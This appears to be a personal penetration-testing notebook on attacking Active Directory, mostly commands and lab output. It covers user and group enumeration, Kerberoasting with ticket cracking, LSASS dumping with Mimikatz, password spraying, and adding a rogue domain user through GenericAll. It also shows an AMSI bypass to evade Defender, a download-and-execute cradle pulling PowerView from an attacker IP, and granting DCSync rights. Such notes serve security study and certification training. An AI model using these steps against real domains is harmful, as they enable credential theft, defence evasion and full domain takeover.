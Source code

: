 # Active Directory

## whoEnumeration

### Traditional approach

```
net user /domain ###enumerate all users in the entire domain
net user jeff_admin /domain
net group /domain
net group "Sales Department" /domain
```

### **Modern approach**

```
// SoPS C:\Users\offsec.CORP> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()
Forest : corp.com
DomainControllers : {DC01.corp.com}
Children : {}
DomainMode : Unknown
DomainModeLevel : 7
Parent :
PdcRoleOwner : DC01.corp.com
RidRoleOwner : DC01.corp.com
InfrastructureRoleOwner : DC01.corp.com
Name : corp.com
```

```
powershell -ep bypass
```

{% code title="Script which will create the full LDAP path required for enumeration" overflow="wrap" lineNumbers="true" %}
```
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"
$LDAP
```
{% endcode %}

{% code title="Script output showing the full LDAP path" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\stephanie> .\enumeration.ps1
LDAP://DC1.corp.com/DC=corp,DC=com
```
{% endcode %}

0x30000000 (decimal 805306368) to the filter property to enumerate all users in the domain

{% code title="Adding a nested loop which will print each property on its own line" overflow="wrap" lineNumbers="true" %}
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domainObj.PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }

    Write-Host "-------------------------------"
}

```
{% endcode %}

#### Resoving Nested Groups

```
domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Secret_Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member
}
```

### **Currently logged on users**

```
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1

enumerate logged-in users with Get-NetLoggedon
PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName client251

Get-NetSession will return all active sessions, in our case from the domain controller
PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01
```

### **Enumerate thorugh Service Principal Names**

While Microsoft has not documented a list of searchable SPN’s there are extensive lists available online.

```
update previously script with this filter
$Searcher.filter="serviceprincipalname=*http*"
```

```
```

## **Authentication**

1. **NTLM**
2. **Kerberos**
3. **Cached Credential Storage and Retrieval**
   1. execute Mimikatz directly from memory using an injector like PowerShell (https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke- ReflectivePEInjection.ps1)or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, load the data into Mimikatz.
4.  Service Account Attacks

    1. Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'H TTP/CorpWebServer.corp.com'
    2. PS C:\Users\offsec.CORP> klist
    3. mimikatz # kerberos::list /export


5. Low and Slow Password Guessing
   1. PS C:\Users\Offsec.corp> net accountss
   2. Spray-Passwords.ps ([ https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1))



### Kerberoasting

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offse
c@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
found password for ticket 0: Qwerty09! File: 1-40a50000-Offsec@HTTP~CorpWebServer.cor
p.com-CORP.COM.kirbi
All tickets cracked!
```

{% hint style="info" %}
The Invoke-Kerberoast.ps**1** [ **https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-**\
**Kerberoast.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)**)** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.
{% endhint %}

### Making use of "GenericAll"

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user john abc123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" john /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

```

### Download PowerView

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring("http://10.10.16.12:8080/PowerView.ps1")

```

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can use the Add-ObjectACL with john's credentials, and give him DCSync rights.



```
$SecPassword = ConvertTo-SecureString 'abc123!!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\john', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
```

##

```
```

